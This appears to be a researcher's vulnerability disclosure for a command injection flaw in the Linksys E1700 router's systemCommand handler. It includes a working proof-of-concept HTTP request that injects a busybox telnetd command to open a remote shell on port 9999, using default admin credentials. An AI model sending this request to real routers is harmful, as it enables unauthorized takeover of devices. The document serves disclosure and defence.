


# Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `systemCommand` function, `command` is directly passed by the attacker, so we can control the `command` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `command` as **`busybox telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /goform/systemCommand HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/network/basic.shtml;session_id=gwyuIY8uSJHGwxtp0U0bMnX0J1klT6C9
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=gwyuIY8uSJHGwxtp0U0b&command=`busybox telnetd -l /bin/sh -p 9999`
```


## Result

Get a shell!

<div  align="center"></div>

